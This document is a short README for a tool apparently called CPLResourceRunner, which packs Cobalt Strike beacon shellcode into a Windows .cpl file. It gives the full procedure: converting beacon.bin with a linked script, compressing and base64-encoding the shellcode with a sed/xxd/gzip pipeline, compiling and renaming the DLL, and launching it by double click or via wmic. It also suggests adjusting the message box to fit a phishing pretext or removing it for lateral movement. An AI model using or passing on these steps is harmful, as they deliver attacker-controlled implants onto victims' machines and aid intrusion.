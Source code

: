 # CPLResourceRunner
Create Payload "RAW" fully staged (S) in cobalt strike

Run ConvertShellcode.py on the beacon.bin file.
https://gist.githubusercontent.com/rvrsh3ll/abea05538480db9e41afa3799e5053bb/raw/74cdb762da1aa8556d04959d83900eaa2d6170d6/ConvertShellcode.py

Run String against the "shellcode.txt" file to get blob for cpl resource
cat shellcode.txt |sed 's/[, ]//g; s/0x//g;' |tr -d '\n' |xxd -p -r |gzip -c |base64 > b64shellcode.txt

Copy b64shellcode.txt contents into Resources.txt in this project

Compile to x86 anc copy CPLShellcodeRunner.dll to RunMe.cpl

Will launch with double click or 'wmic process call create "cmd.exe /c c:\wherever\RunMe.cpl"'

For asthetics, change the contents of the MsgBox to suit your pretext or remove for lateral movement usage.